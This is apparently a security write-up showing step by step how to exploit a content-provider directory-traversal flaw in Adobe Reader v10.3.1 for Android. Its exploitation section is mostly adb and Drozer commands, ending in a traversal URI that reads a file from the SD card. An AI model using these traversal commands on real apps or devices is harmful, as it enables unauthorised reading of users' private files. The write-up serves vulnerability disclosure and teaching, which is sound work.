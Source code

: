 # Content Provider File Traversal Vulnerability For Android
## DESCRIPTION

The Content Provider class provides a mechanism for managing and sharing data with other applications. When sharing a provider’s data with other apps, access control should be carefully implemented to prohibit unauthorized access to sensitive data.

Successful exploitation could lead to information disclosure.

## PREREQUISITES

1. Adobe reader v10.3.1 for android

2. adb(Android debug bridge)

3. Drozer app for android

## EXPLOITATION

The following test has been done on Adobe Reader v10.3.1.

Install Adobe Reader in Genymotion/Android device

$ adb install <AdobeReader.apk>

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/1.jpg)

Install and open the Drozer app

Turn ON the Embedded Server to establish connection.

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/2.png)
Establish a connection with Drozer app

$ adb connect <ip address of emulator or device>

$ adb forward tcp:31415 tcp:31415

$ drozer console connect

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/3.png)

dz> run app.package.list
![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/4.png)

To see what components of the app are exported

dz> run app.package.attacksurface com.adobe.reader
![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/5.png)

dz> run app.provider.finduri com.adobe.reader
![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/6.png)

Try running the read command as shown below

dz> run app.provider.read content://com.adobe.reader.fileprovider/

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/7.png)
The command above fails to read the content.

Start adding some backtrack directory traversals(../) till the root is reached.

dz> run app.provider.read content://com.adobe.reader.fileprovider/../mnt/sdcard/secret.txt
![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/8.png)

However, adding some more backtrack directory traversals (../) as shown below, the root is reached and the reading process is successful.

dz> run app.provider.read content://com.adobe.reader.fileprovider/../../../../mnt/sdcard/secret.txt
![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/9.png)

The secret is found which was stored in the SD card.

Observing the permissions provided to Adobe Reader and Drozer as shown below

dz> run app.package.info -f adobe
![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/10.png)

dz> run app.package.info -f drozer
![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/11.png)

So, it is important to notice that the attack has been successful due to the vulnerability of the Adobe Reader application, having the permission READ_EXTERNAL_STORAGE, as seen above. In other words, the Adobe Reader can read files from the SD card, but Drozer cannot.

### Thanks for reading!





